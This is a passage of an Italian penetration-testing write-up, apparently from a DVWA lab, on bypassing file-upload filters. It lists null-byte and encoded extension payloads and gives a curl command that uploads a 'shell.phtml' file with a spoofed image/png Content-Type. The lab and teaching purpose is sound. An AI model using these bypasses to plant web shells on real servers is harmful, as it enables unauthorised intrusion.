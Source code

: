 #### Unicode e Encoding Bypasses

Tecniche avanzate che sfruttano l'encoding dei caratteri:

```bash
# Esempi di encoding testati
.php%00.jpg     # Null byte injection (funziona su sistemi vulnerabili)
.php\x00.png    # Hex encoding del null byte
.php%20.gif     # Space encoding
```

### 2. MIME Type Spoofing - Analisi Approfondita

Il MIME Type spoofing rappresenta una delle tecniche più efficaci per bypassare i controlli lato server che si basano sul Content-Type header.

#### MIME Type Fundamentals

**Multipurpose Internet Mail Extensions (MIME)** è un identificatore standardizzato che indica il tipo di contenuto di un file. Durante il testing sono stati identificati i seguenti pattern:

```http
Content-Type: image/jpeg    # Immagine JPEG
Content-Type: image/png     # Immagine PNG
Content-Type: image/gif     # Immagine GIF
Content-Type: text/plain    # File di testo
Content-Type: application/octet-stream  # File binario generico
```

#### Spoofing Implementation Details

La tecnica implementata durante i test utilizza cURL per manipolare gli header HTTP:

```bash
curl -v \
-b "PHPSESSID=fh9vlg2089si34m51nruvdghrm" \
-F "uploaded=@shell.phtml;type=image/png" \
-F "Upload=Upload" \
http://10.122.38.151/DVWA/vulnerabilities/upload/
```

**Breakdown dettagliato del comando**:

- **`curl -v`**: Verbose mode per vedere tutti gli header HTTP
- **`-b "PHPSESSID=..."`**: Mantiene la sessione autenticata
- **`-F "uploaded=@file"`**: Specifica il campo del form e il file
- **`;type=image/png`**: **CHIAVE**: Forza il Content-Type a image/png
- **`-F "Upload=Upload"`**: Simula il click del pulsante Submit

#### Server-Side Validation Weaknesses

I controlli MIME type lato server spesso presentano queste debolezze:

1. **Trusted client headers**: Il server si fida del Content-Type fornito dal client
2. **Insufficient validation**: Controllo solo del MIME type, non del contenuto reale
3. **Inconsistent checks**: Validazione applicata solo in alcuni punti del codice
